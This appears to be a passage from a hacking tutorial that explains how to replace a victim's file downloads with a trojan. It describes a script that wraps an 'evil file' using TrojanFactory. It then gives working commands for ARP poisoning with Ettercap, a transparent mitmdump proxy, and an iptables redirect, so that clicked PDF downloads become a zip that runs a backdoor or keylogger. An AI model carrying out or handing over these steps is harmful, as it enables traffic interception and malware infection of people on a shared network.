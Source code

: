 Note: I am using subprocess.call to run a bash command, here, I am appending the full path to TrojanFactory since I am trying to access it outside the directory. -f is the front file that will be displayed to the user (in this I am creating a variable, storing the value of the file that the user downloads in that variable, and then I am using that variable for -f). Hence, I have created the variable called front_file and thats going to be equal to the file that the user is downloading. -e is the evil file which is stored in my /var/www/html. -o is the location to store the result, -i is the location of the Trojan icon that is to be used. If you look closely, I am using a hash sign for -f and -e file so that it does not get intercepted in the if condition and the code does not get stuck in a loop.

**Testing Script On A Remote Computer To Replace Downloads With a Trojan.**
1. Now that we know how to create trojans and we have a working script that will replace downloads on the fly with any file that we want, lets test this script against a remote computer. We will start by running an ARP spoofing attack against the client computer using Ettercap. (Note: we can use MTIMproxy whenever we are the man in the middle, hence it can be used with ARP spoofing attack, with Fake AP or rather with any other scenario. For convenience, we will use Ettercap to become the man in the middle.)
```shell
ettercap -Tq -M arp:oneway -i wlan0 -S /10.15.162.1// /10.15.162.9//
```
(Note: the above command will silently execute an ARP poison attack using the interface wlan0 and the -S is so that it does not forge an SSL certificate.)

2. Next, we will run MITMproxy in a separate terminal window. So, first go into the working directory of MITMproxy and run the following.
```shell
./mitmdump -s /root/proxyscript.py --transparent
```
(Note: since browser is not configured to run a proxy, we are going to use the transparent mode. Here -s is the location of my MITM python script.)

3. Next, we have to run an iptables command in a separate terminal window to redirect all data to port 8080 where MITMproxy is running, since all the client data is flowing to port 80 (which is my default web server port).
```shell
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

4. So now when a client clicks on a pdf download, the download will get redirected and it will prompt the client to download our evil zip file. When the client unzips and opens the PDF, our evil file will get executed. (This evil file could be a backdoor, a key logger, a credential harvester, etc.)
